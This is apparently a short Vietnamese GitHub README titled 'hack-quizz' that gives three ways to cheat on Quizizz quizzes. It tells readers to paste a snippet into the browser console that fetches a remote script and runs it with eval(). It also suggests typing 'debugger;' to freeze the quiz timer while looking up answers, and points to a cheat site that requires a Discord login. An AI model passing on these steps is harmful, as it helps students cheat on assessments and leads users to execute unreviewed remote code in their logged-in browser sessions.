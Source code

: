 # hack-quizz
Tất tần tật về hack đáp án trên quizz:

Cách 1:

	Step 1: start your quizizz in https://quizizz.com/join/

	Step 2: open console tab [Ctrl+Shift+J]

	Step 3: paste this code
	
	// quizizz hack by LTP
	fetch("https://raw.githubusercontent.com/lucthienphong1120/hack-quizizz/main/script.js")
    .then((res) => res.text()
    .then((t) => eval(t)))
	
Cách 2: Dừng thời gian chạy để tra đáp án

Mở console và gõ lệnh:

debugger;

Lúc này thời gian sẽ ngừng,tha hồ tra nha =)))

Cách 3:Tra đáp án trên web

-Truy cập địa chỉ https://schoolcheats.net/quizizz/

-Xác thực tài khoản bằng discord

-Nhập mã code bài ktra

-Ctrl F để tra đáp án 
